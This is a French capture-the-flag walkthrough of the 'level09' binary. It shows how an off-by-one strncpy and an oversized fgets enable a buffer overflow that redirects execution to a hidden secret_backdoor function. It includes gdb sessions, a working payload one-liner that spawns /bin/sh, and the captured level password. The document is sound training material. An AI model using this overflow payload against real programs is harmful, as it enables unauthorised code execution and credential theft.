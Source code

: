 # level 09 /bonus

On trouve à la racine un binaire level09. Il récupère un username et un message.

En analysant le binaire, on se rend compte de la présence d'une structure :

```c
struct 	s_struct
{
    char message[128];
    char username[40];
    unsigned int i;
};
```
On remarque aussi la présence d'une fonction appelée **secret_backdoor**:

```gdb
(gdb) > i functions
All defined functions:

Non-debugging symbols:
...
0x000055555555488c  secret_backdoor
0x00005555555548c0  handle_msg
0x0000555555554932  set_msg
0x00005555555549cd  set_username
0x0000555555554aa8  main
```

> La fonction **secret_backdoor** va prendre un input dans stdin puis exécuter une fonction **system**.

De plus, on peut voir un **strncpy** dans **set_username** d'une taille de 41 de **username** vers notre structure alors que celle ci est de 40.

De plus, on peut voir un **fget** d'une taille de 1024 dans une variable qui ne fait que 128.

Pour finir, dans cette même fonction, on peut voir un **strncpy** :

```c
    strncpy(s->message, message, s->i);
```

Avec tout ces éléments, on suppose qu'on peut donc écrire un octet sur **i** grâce au 41ème caractère qui overflow depuis **username** (grâce à leur placement dans la structure) afin de faire un buffer overflow dans la variable **message** dans cette même structure pour écraser l'**eip** avec l'adresse de **secret_backdoor**.

Il ne nous manque plus qu'a trouver l'**offset** et nous pourront génerer un ret2secret_backdoor.

On a donc posé un breakpoint au **strncpy** pour récupérer l'adresse du début du buffer et un breakpoint avant le return de la fonction **handle_msg** afin de récuperer l'adresse de l'eip.

On les soustrait pour obtenir l'offset.

```gdb
(gdb) > b *set_msg +153
Breakpoint 1 at 0x5555555549cb
(gdb) > b *handle_msg +100
Breakpoint 2 at 0x555555554924
(gdb) > run <<< $(python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 100")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level09/level09 <<< $(python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 100")
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude

Breakpoint 1, 0x00005555555549cb in set_msg ()
(gdb) > x/100x $rbp
0x7fffffffe4f0: 0xffffe5c0      0x00007fff      0x55554924      0x00005555
0x7fffffffe500: 0x41414141      0x41414141      0x41414141      0x0a414141
0x7fffffffe510: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe520: 0x00000000      0x00000000      0x00000000      0x00000000
...

(gdb) c
Continuing.

Breakpoint 2, 0x0000555555554924 in handle_msg ()
(gdb) > i f
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x555555554924 in handle_msg; saved rip 0x0
 called by frame at 0x7fffffffe5d8
 Arglist at 0x7fffffffe5c0, args:
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
(gdb) > p 0x7fffffffe5c8 - 0x7fffffffe500 
$1 = 200
```

> On a donc un offset de 200.

Il suffit de rajouter l'adresse de la fonction **secret_backdoor**, un '\n' pour simuler l'entrée d'input, et enfin '/bin/sh' qui sera executé par **system**.

```shell
(python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh' "; cat) | ./level09
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```